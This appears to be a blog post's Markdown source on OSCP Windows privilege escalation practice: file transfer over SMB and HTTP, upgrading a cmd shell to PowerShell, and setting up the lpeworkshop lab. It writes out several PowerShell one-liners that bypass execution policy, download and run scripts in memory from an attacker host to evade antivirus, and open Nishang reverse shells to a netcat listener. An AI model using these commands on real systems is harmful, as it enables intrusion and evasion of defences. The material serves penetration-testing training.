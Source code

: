 ```yaml
---
title: OSCP Windows PrivEsc - Part 1
description: Windows Privilege Escalation for OSCP
categories: [oscp]
tags: [oscp, Offensive Security]
---
```


As stated in the [OSCP Review Post](/oscp/OSCP-Review), I came across many good resources for Linux Privilege Escalation but there were just a few for Windows. [lpeworkshop](https://github.com/sagishahar/lpeworkshop) being one of those, lacks a good walkthrough. In this writeup, we will take a look at file transfer over smb and http, how to migrate to PowerShell from a standard cmd shell and lpeworkshop setup.
{: .text-justify}

---
## File transfer over SMB

While there are numerous methods to transfer files from your host Kali to victim Windows, I found SMB to be the most reliable one. 
- Install impacket on your kali (It comes preinstalled most of the times, located at /usr/share/impacket/examples/).
- Start the SMB server by running `smbserver.py`:  
![image-center](/assets/images/oscp/1/smbserver.png)
This will share the `/tmp/smbshare` directory over smb as `myshare`.
- All the files inside `/tmp/smbshare` can now directly be accessed on the victim windows:  
![image-center](/assets/images/oscp/1/smbshare.png)
- For more convenience, this SMB share can be  mounted directly on the windows as a drive:
	- Check currently mounted shares by running `net view`:
	- Mount your `myshare` as drive `Z` (or anything else) using the command
	`net use Z: \\<IP>\myshare`
		![image-center](/assets/images/oscp/1/smbmount.png)
- Now, you can simply change dir to `Z` and browse the shared files as a drive on the victim system.  
![image-center](/assets/images/oscp/1/smbmount2.png)
- The mount can be disconnected with command `net use Z: /d` once you are done with it.  
Another easy way to transfer files is over http using python's SimpleHTTPServer. We will take a look at it and download files using PowerShell in the following section.
{: .text-justify}

---
## PowerShell

PowerShell provides an easy way to perform post exploitation and privilege escalation activities with the help of various PS modules. Two of the most useful modules that I came across were: [Nishang's Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) and [Powersploit's PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)   
While most of the newer Windows OS have a functional antivirus monitoring and prohibiting the execution of programs from storage, PowerShell provides us with an option to bypass this and run programs directly from the memory. This can help us evade the antivirus and easily run exploits or post-exploitation scripts.
1. Share your files using python's `SimpleHTTPServer` or Apache.   
![image-center](/assets/images/oscp/1/http1.png)
2. On the victim's cmd shell, execute the command:
`powershell.exe -nop -ep bypass -c "iex ((New-Object Net.WebClient).DownloadString('http://<IP>/testfile'))"`
This downloads `testfile` and executes it in the memory.  
![image-center](/assets/images/oscp/1/http2.png)
{: .text-justify}

### Upgrading to PowerShell from cmd using Nishang

The `Invoke-PowerShellTcp.ps1` can be used to get an interactive Reverse or Bind PowerShell from the target. This script is able to connect to an attacker's netcat listener using -Reverse switch or an attacker's netcat can connect to this script Bind to a specific port on the victim when using -Bind switch. For this exercise, we are assuming that you already have access to the victim (web command injection or a cmd shell using eternalblue/any other exploit) and will look at how this cmd shell can be upgraded to an interactive reverse PowerShell.
{: .text-justify}

### Method 1: Using HTTP to evade Antivirus

We will share our `Invoke-PowerShellTcp.ps1` over http, download it to the victim, and execute it inside memory to send a reverse PowerShell.
1. Start python's `SimpleHTTPServer` and copy the `Invoke-PowerShellTcp.ps1` to that directory.   
![image-center](/assets/images/oscp/1/httpps1.png)
2. Start netcat listener on your Kali (always prefer using standard ports such as 80,443,53 since they have less chances of being blacklisted on the victim's firewall).
3. On the victim, we can download and execute this script using command: `powershell.exe -nop -ep bypass -c "iex ((New-Object Net.WebClient).DownloadString('http://<IP>/Invoke-PowerShellTcp.ps1'));Invoke-PowerShellTcp -Reverse -IPAddress <IP> -Port <Port>"`   
![image-center](/assets/images/oscp/1/httpps2.png)
4. This sends an interactive reverse PowerShell to our kali on port 443:  
![image-center](/assets/images/oscp/1/httpps3.png) 
5. This script can also be used to setup a bind shell on the victim using `-Bind` switch but I preferred using reverse shells in the PWK lab.
{: .text-justify}

### Method 2: Using SMB (Gets blocked by Windows AV)

While this method is convenient for sharing multiple files over smb, but since we are executing `Invoke-PowerShellTcp.ps1` from storage (drive Z), it has a good chance of getting blocked by the Windows Antivirus. 
1. On your Kali, copy `Invoke-PowerShellTcp.ps1` inside `myshare` and start the smbserver.  
![image-center](/assets/images/oscp/1/ps1.png)
2. Start netcat listener on Kali.
3. You can mount the smbshare as Z, change dir to Z, and execute the script with command:
`powershell.exe -nop -ep bypass -c "Import-Module .\Invoke-PowerShellTcp.ps1; Invoke-PowerShellTcp -Reverse -IPAddress <IP> -Port <Port>"`
![image-center](/assets/images/oscp/1/ps2.png)
(Note: I disabled windows AV for this exercise)
4. This sends a fully interactive PowerShell to our kali on port 443:  
![image-center](/assets/images/oscp/1/ps3.png)
{: .text-justify}

---
### Command breakdown

Let's see the breakdown:   
`powershell.exe -nop -ep bypass -c "<Command>"` : We are executing powershell using three arguments:
1. `-nop` or `NoProfile` : This option means that the currently active user’s profile will not be loaded.
2. `-ep bypass` or `-ExecutionPolicy Bypass` : Execution Policy restricts script execution on most systems on the default setting This can be overcome by giving Bypass value to the value of -ExecutionPolicy parameter. 
3. `-c` or `-Command` : This is used to specify a command to be executed.
	- `"iex ((New-Object Net.WebClient).DownloadString('http://<IP>/Invoke-PowerShellTcp.ps1'))` : This part of the command downloads the `Invoke-PowerShellTcp.ps1` file.
	- `Invoke-PowerShellTcp -Reverse -IPAddress <IP> -Port <Port>"` : These are the arguments passed to `Invoke-PowerShellTcp.ps1` module. More arguments or examples can be seen on Nishang's github.
	- Pro tip: you can append the `Invoke-PowerShellTcp -Reverse -IPAddress <IP> -Port <port>` to your `Invoke-PowerShellTcp.ps1`. This way, your final command for reverse shell would just be downloading and invoking the module, you don't have to pass the arguments anymore:
	`powershell.exe -nop -ep bypass -c "iex ((New-Object Net.WebClient).DownloadString('http://<IP>/Invoke-PowerShellTcp.ps1'))`
{: .text-justify}

---
## lpeworkshop
For the setup, we need three things:
1. Windows 7/10
We can grab a free copy of Windows Evaluation versions directly from [Microsoft](https://developer.microsoft.com/en-us/microsoft-edge/tools/vms/) or from [magnetikonline's github repo](https://github.com/magnetikonline/linux-microsoft-ie-virtual-machines). Prefer getting a Windows 7 as this workshop was developed and tested on a Windows 7 (SP1) x64 host. 
2. [Windows Exercises Setup Script](https://github.com/sagishahar/lpeworkshop/blob/master/lpe_windows_setup.bat)
3. [Tools for Windows Exercises](https://drive.google.com/file/d/1Lgg3HXXltB7ZD3F5YSbRl6FX7h_mPzFU/view?usp=sharing) (7z archive password: lpeworkshop)  
{: .text-justify}

[Note: Take a snapshot of the windows VM before starting the setup]  
The setup is fairly simple: Copy the lpe_windows_setup.bat script to VM and run it as an Administrator. 
{: .text-justify}

---
## Additional resources

- https://hacknpentest.com/windows-privilege-escalation-using-powershell/
- https://github.com/J3rryBl4nks/LPEWalkthrough